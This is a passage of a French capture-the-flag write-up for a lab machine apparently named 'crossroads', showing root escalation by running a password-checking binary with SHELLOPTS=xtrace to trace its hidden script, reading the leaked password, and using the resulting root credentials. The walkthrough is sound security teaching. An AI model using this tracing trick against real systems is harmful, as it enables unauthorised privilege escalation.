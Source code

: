 Mais rien ne semble vulnérable : les paths sont absolus et il n'y a pas de `strcpy`...

Bien sûr le script bash mentionné ne nous est pas non plus accessible. On peut seulement se faire une idée à l'exécution :

```shellsession
albert@crossroads:/home/albert$ ./beroot
enter password for root
-----------------------

password: yolo
wrong password!!!
```

Heureusemet on peut faire passer une variable d'environnement pour tracer l'exécution du script ce qui a pour effet de voir les commandes exécutées :

```shellsession
albert@crossroads:/home/albert$ env -i SHELLOPTS=xtrace ./beroot 
+ /usr/bin/clear
TERM environment variable not set.
+ /usr/bin/echo 'enter password for root'
enter password for root
+ /usr/bin/echo -----------------------
-----------------------
+ /usr/bin/echo ''

+ read -p 'password: ' pasw
password: yolo
++ /usr/bin/ls /root/passwd
+ [[ yolo == \l\e\m\u\e\l ]]
+ /usr/bin/echo 'wrong password!!!'
wrong password!!!
```

On voit que le mot de passe attendu est `lemuel`. C'est parti :

```shellsession
albert@crossroads:/home/albert$ ./beroot
enter password for root
-----------------------

password: lemuel
do ls and find root creds
```

Un fichier a en effet fait son apparition :

```shellsession
albert@crossroads:/home/albert$ cat rootcreds 
root
___drifting___
albert@crossroads:/home/albert$ su root
Password: 
root@crossroads:/home/albert# id
uid=0(root) gid=0(root) groups=0(root)
root@crossroads:/home/albert# cd /root
root@crossroads:~# ls
beroot.sh  creds  passwd  root.txt
root@crossroads:~# cat root.txt 
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
```